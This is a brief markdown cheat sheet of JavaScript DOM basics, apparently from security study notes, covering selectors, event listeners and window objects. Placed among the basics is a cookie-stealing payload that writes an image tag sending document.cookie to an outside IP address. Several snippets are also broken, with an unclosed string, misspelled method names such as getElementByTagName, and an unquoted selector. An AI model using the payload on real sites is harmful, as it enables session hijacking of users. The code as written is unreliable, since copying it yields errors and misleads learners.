 # Document Object Model (DOM)

### Basics
```
console.log("Hello World!);

document.cookie


document.getElementById('1');

document.getElementByTagName('div');

document.getElementByClassName('list-items');

document.querySelector(#main-heading);

document.querySelectorAll('div');


document.write('something');

document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
```

### Event Listeners 
```
element.addEventListener("click", function);

element.addEventListener("mouseover", function);
```

### Window Objects

```
window.alert('1');
 
alert(prompt());

window.location = "http://127.0.0.1"

window.location.search
```
